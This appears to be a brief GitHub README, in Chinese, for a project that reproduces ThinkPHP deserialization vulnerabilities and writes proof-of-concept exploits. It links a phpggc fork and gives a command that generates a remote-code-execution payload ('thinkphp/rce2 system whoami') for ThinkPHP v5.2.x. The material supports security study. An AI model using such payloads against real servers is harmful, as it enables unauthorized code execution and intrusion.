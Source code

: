 # thinkphp
thinkphp反序列化复现及POC编写

## 为学习phpggc，部分payload添加进phpggc
[phpggc](https://github.com/Dido1960/phpggc "phpggc")
* thinkphp v5.2.x
获取payload
`
./phpggc thinkphp/rce2 system whoami
`

